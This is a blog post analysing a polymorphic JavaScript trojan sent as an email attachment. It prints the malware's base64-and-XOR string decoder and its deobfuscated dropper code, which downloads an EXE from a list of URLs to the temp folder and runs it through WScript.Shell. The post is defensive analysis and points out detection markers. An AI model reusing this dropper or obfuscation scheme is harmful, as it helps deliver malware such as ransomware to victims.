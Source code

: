```yaml
---
layout: post
title: "Polymorphic Javascript malware"
thumbnail: mosquito-240.jpg
date: 2016-02-18
---
```


Recently I received two similar e-mails with attached trojans, both using encoded Javascript. In this post we look into how the Javascript is encoded and what it does when it is run.

The e-mail described that I received a remittance and that I should open the attachment to claim my money. The attachment was a ZIP file named `WU6533175781.zip`, containing a ZIP file named `file.zip`, containing a Javascript file named [`invoice_Ir1vkp.js`](https://github.com/Sjord/encoded-js-trojan/blob/orig/invoice_Ir1vkp.js). The file is probably zipped twice to get around some antivirus software. Also, the Javascript is encoded:


    var insensatePtK = decode('"AD4qHg9EOH0qJwgvWw=="');
    var revelryk8e = decode('"Gj4RISoGYgs0AyUXY2Y="');
    …
    if (riledjg) {
        engageegd[toutfVe](wandervwY + Math.pow(2, 19));
    }

As you can see both the variable names and the string literals are encoded. The `decode` function is defined in the same file. It base64-decodes the string and XORs it with a cipher. The code to base64-decode is copied literally from [webtoolkit.info](https://www.webtoolkit.info/javascript_base64.html).

    var decode = function (packedText) {
        var cipher ="WmIlf4LSyOmC766Y";
        …
        var text = Base64.decode(packedText);

        var cipherLength = cipher.length;
        var result = "";
        for (var i = 0; i < text.length; i++) {
            result += String.fromCharCode(text.charCodeAt(i) ^ cipher.charCodeAt(i % cipherLength));
        }
        return result;
    };

Now, what is interesting is that the two mails that I received had basically the same Javascript, encoded differently. So the structure and the decode function was the same, but the cipher, the string literals and the variable names differed. I assume this is to make it harder for virus scanners to detect this thing. It is remarkable then that the `decode` function itself is not obfuscated, so that would be an easy marker to recognize this malware.

Because we have the `decode` function it is easy to decode all the strings in the script, and we can rename the variables to see what [the code](https://github.com/Sjord/encoded-js-trojan/blob/master/invoice_Ir1vkp.js) really does:

    var wscriptShell = "WScript.Shell";
    var shellObject = WScript.CreateObject(wscriptShell);
    …        
    for (var i = 0; i < urls.length; i++) {
        try {
            var url = urls[i];
            httpObject.open(get, url, false);
            httpObject.send();
            if (httpObject.status == statusOk) {
                try {
                    streamObject.open();
                    streamObject.type = 1;
                    streamObject.write(httpObject.responseBody);
                    if (streamObject.size > minSize) {
                        i = urls.length;
                        streamObject.position = 0;
                        streamObject.saveToFile(exePath, 2);
                        success = true;
                    }
                } finally {
                    streamObject.close();
                }
            }
        } catch (ignored) {}
    }
    if (success) {
        shellObject[exec](tempDir + Math.pow(2, 19));
    }

Apparently it downloads an EXE into the temp directory, and runs it. I assume to install the latest CryptoLocker variation. Normally in a web browser you can't download things and run EXE's. However, this script is sent as an attachment and meant to be run from the disk and not from the internet, which gives it permissions to do these things.

As you can see it takes extra effort to obfuscate the EXE filename, using 524288 at one place and `Math.pow(2, 19)`, which is also 524288, when actually running the file. It is a pretty simple piece of Javascript, encoded in a simple way. However, the encoding makes it possible to change the code in each spam campaign or perhaps even each e-mail, which makes it hard to block by virus scanners.

